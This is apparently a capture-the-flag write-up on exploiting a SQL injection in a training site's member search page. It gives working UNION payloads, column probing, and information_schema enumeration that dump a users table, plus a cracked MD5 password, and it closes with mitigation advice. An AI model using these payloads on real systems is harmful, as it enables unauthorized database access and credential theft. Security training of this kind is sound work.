 # Solution

```
1 OR 1=1 UNION SELECT Commentaire, countersign FROM users
```  


On the Search member by Id page, if we enter something, we get this message:  
> You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '' at line 1.  

-> The website is not protected against SQL injections.

When an application is vulnerable to SQL injection and the results of the query are returned within the application's responses, the UNION keyword can be used to retrieve data from other tables within the database. This results in an *SQL injection UNION attack*.  

Information_schema is the table which contains meta-data, with information about all the tables and columns of the database.

- To see how many columns there are, we can use:  
```1 order by 1
1 order by 2
1 order by 3
etc...
```
-> We get an error at 3, therefore, there are 2 columns.
`Unknown column '3' in 'order clause'`

- To see all the users in a table  
`1 OR 1=1`  
-> We can also see that there are 2 columns (First name and Surname).

The following will show all the tables per database.  
> 1 OR 1=1 UNION SELECT table_schema, table_name FROM information_schema.columns 

Since 1=1 will always return true, the query will return all the items in the database.

![database](database.png)

-> We see that there is this user:  
```
ID: 1 OR 1=1 UNION SELECT table_schema, table_name FROM information_schema.columns 
First name: Member_Sql_Injection
Surname : users
```

-> The Member_Sql_Injection is in the USERS table.  

With `1 OR 1=1 UNION SELECT table_name, column_name FROM information_schema.columns`  

![users](users_table.png)  

We can retrieve all the columns of the USERS table:  
```
user_id
first_name
last_name
town
country
planet
Commentaire
countersign
```

As the table only has 2 columns, we can only select 2 columns from the users table that we want to see.  
By selecting "Commentaire" and "countersign" from the USERS table, we get this:  
```
ID: 1 OR 1=1 UNION SELECT Commentaire, countersign FROM users 
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```  

![users](users_table.png)  

With dcode, we see that the password is encrypted in MD5, and is **FortyTwo**.
fortytwo -> SH256 = `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`


Attackers can use SQL Injections to find the credentials of other users in the database.  
They can then impersonate them, and gain complete access to all the data.
They can then alter/add/delete the data.

The only sure way to prevent SQL Injection attacks is input validation and parametrized queries including prepared statements.  
The application code should never use the input directly, potential malicious code elements such as single quotes must be removed from the inputs.
Also, it can be good to turn off the visibility of database errors on the website.